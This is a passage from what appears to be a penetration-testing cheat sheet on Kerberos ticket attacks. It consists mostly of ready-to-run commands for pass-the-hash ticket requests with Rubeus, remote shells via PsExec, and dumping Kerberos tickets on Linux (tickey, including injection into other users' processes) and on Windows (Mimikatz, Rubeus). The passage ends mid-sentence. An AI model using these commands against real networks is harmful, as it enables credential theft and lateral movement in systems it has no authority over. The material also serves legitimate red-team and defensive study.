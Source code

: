 ### Windows \(internal\)

With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```text
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Pass The Ticket \(PTT\)

> MiTM, lsass with mimi

### Linux \(external\)

Check type and location of tickets:

```text
grep default_ccache_name /etc/krb5.conf
```

If none return, default is FILE:/tmp/krb5cc\_%{uid}.

In case of file tickets, you can copy-paste \(if you have permissions\) for use them.

In case of being _KEYRING_ tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```text
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Windows \(internal\)

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```text
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```text
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

To convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket_converter):
